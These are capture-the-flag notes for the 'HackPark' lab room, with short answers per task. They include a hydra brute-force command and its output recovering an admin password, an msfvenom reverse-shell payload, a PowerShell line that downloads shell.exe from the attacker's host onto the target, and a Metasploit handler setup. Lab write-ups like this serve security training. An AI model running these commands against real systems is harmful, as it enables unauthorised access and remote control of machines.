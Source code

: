 # Notes for room HackPark

## Tasks

### Task 1 

Whats the name of the clown displayed on the homepage?

```
pennywise
```

### Task 2

What request type is the Windows website login form using?

```
POST
```

Guess a username, choose a password wordlist and gain credentials to a user account!

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.162.244 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=XpP2UkNgGxw32%2FF2%2BYjElt5GwwgetPHJYxx2jhnVmRMSAdlvIsNjBLzTCfSCaKTdRF2HxFfuTPng%2FgKAVCnnbuHC54OqXeepcBJTEL9vrSDFmL1v6j363%2FbK8rIE0hPXU6iIGAy1NabubktHqG4k7qdabnDqH435Y6bAcSjb1qFHniyG0LgwyVttpXNl2xfRLwH98RoHTBglJBCcKRZbXxNlcTS7%2FTl4puWb%2BU1WY4wyAwUUpRexPwEpCB5xk0i8AaqtV%2BPUgwqQnsqKTlfOAwvJlUO6A4jCryas8Ou2DMZNvWZlPAbbBAAS9g8uA2CwpPrHuVjeDwW8sJKSo%2B9qgG5vEjG4lrtu%2BtgzQaSnO2xtYo%2Bz&__EVENTVALIDATION=%2BzWsyYDSxPTekwgchmw7FY0ZJ%2F%2Fl57Y2FmwqE2H6UOhR3DMN6Jwf5exxI2ImOPaebX5wlSkjhhNoV0n3Zi9YyXXZQGPDrdAedmR5wOgeyDvwiVAgodJTdae2ECGrZEr6ntn65oukIJyq2jWJ8mOXF7GD2KJy06shnmM%2F5niEDWC39cOP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-09 06:36:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.162.244:80/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=XpP2UkNgGxw32%2FF2%2BYjElt5GwwgetPHJYxx2jhnVmRMSAdlvIsNjBLzTCfSCaKTdRF2HxFfuTPng%2FgKAVCnnbuHC54OqXeepcBJTEL9vrSDFmL1v6j363%2FbK8rIE0hPXU6iIGAy1NabubktHqG4k7qdabnDqH435Y6bAcSjb1qFHniyG0LgwyVttpXNl2xfRLwH98RoHTBglJBCcKRZbXxNlcTS7%2FTl4puWb%2BU1WY4wyAwUUpRexPwEpCB5xk0i8AaqtV%2BPUgwqQnsqKTlfOAwvJlUO6A4jCryas8Ou2DMZNvWZlPAbbBAAS9g8uA2CwpPrHuVjeDwW8sJKSo%2B9qgG5vEjG4lrtu%2BtgzQaSnO2xtYo%2Bz&__EVENTVALIDATION=%2BzWsyYDSxPTekwgchmw7FY0ZJ%2F%2Fl57Y2FmwqE2H6UOhR3DMN6Jwf5exxI2ImOPaebX5wlSkjhhNoV0n3Zi9YyXXZQGPDrdAedmR5wOgeyDvwiVAgodJTdae2ECGrZEr6ntn65oukIJyq2jWJ8mOXF7GD2KJy06shnmM%2F5niEDWC39cOP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.162.244/admin
[80][http-post-form] host: 10.10.162.244   login: admin   password: 1qaz2wsx
[STATUS] attack finished for 10.10.162.244 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-09 06:37:2

```

### Task 3 

Now you have logged into the website, are you able to identify the version of the BlogEngine?

```
3.3.6.0

```

What is the CVE?

```
CVE-2019-6714
```

Who is the webserver running as?

```
iis apppool\blog
```

### Task 4

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.1.5 LPORT=9001 -f exe > shell.exe

python3 -m http.server
```
ON TARGET:

```
powershell -c "Invoke-WebRequest -Uri 'http://10.9.1.5:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"


```

ON HOST AGAIN: 
```
Go to msfconsole

use multi/handler

set PAYLOAD as windows/meterpreter/reverse_tcp

set LHOST

set LPORT

run

```

